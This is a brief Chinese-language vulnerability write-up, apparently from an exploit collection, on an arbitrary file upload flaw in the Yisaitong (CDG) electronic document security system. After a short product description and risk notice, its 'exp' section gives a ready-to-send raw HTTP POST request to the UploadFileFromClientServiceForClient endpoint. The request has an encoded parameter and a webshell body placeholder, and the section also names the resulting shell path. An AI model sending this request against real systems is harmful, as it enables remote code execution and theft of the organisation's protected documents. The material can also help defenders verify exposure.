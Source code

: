 亿赛通 /UploadFileFromClientServiceForClient 任意文件上传漏洞

## 介绍

亿某通电子文档安全管理系统（简称：CDG）是一款电子文档安全加密软件，该系统利用驱动层透明加密技术，通过对电子文档的加密保护，防止内部员工泄密和外部人员非法窃取企业校心重要数据资产,对电子文档进行全生命周期防护，系统具有透明加密、主动加密、智能加密等多种加密方式，用户可根据部门涉密程度的不同（如核心部门和普通部门），部署力度轻重不一的梯度式文档加密防护，实现技术、管理、审计进行有机的结合，在内部构建起立体化的整体信息防泄露体系，使得成本、效率和安全三者达到平衡，实现电子文档的数据安全。

近日监测发现某通电子文档安全管理系统任意文件上传漏洞，攻击者可通过发送特制请求来利用此漏洞，成功利用此漏洞可在目标系统上执行任意代码。

对此，建议广大用户做好资产自查以及预防工作，以免遭受黑容攻击。

## 影响范围

其他未确认版本需自查

## exp

直接bp发包即可，shell访问地址：https://x.x.x.x/tttT.jsp

 

 

```
POST /CDGServer3/UploadFileFromClientServiceForClient?AFMALANMJCEOENIBDJMKFHBANGEPKHNOFJBMIFJPFNKFOKHJNMLCOIDDJGNEIPOLOKGAFAFJHDEJPHEPLFJHDGPBNELNFIICGFNGEOEFBKCDDCGJEPIKFHJFAOOHJEPNNCLFHDAFDNCGBAEELJFFHABJPDPIEEMIBOECDMDLEPBJGBGCGLEMBDFAGOGM HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: */*
Content-Length: 1

shell内容

```



 